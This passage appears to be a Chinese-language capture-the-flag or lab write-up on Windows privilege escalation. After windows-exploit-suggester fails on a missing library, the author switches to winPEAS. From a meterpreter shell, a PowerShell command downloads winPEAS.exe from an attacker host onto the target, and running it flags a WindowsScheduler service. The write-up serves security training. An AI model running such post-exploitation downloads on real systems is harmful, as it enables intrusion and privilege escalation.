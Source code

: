```
└─$ sudo  python2  windows-exploit-suggester.py --database 2023-12-09-mssb.xls --ostext "windows 2012 R2"
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[-] please install and upgrade the python-xlrd library
```

由于xlrd原因无法进行下去。。。决定采用winPEAS

### winPEAS 识别漏洞并提权

+ 脚本在Windows 机器上找到可能会被攻击者利用的路径和服务。

+ 下载地址：

   ``https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe``

+ 脚本上传至目标：

   ```
   meterpreter > shell
   Process 2036 created.
   Channel 2 created.
   Microsoft Windows [Version 6.3.9600]
   (c) 2013 Microsoft Corporation. All rights reserved.

   C:\Windows\Temp>powershell -c wget "http://10.11.61.123:8000/winPEAS.exe" -outfile "winPEAS.exe"
   powershell -c wget "http://10.11.61.123:8000/winPEAS.exe" -outfile "winPEAS.exe"

   C:\Windows\Temp>dir
   ···
   12/09/2023  12:17 AM         1,968,640 winPEAS.exe
   ···   
   ```
+ 执行：

   `` c:\Windows\Temp>winPEAS.exe``
   ![Alt text](/style/image/image-300.png)

   异常服务：WindowsScheduler
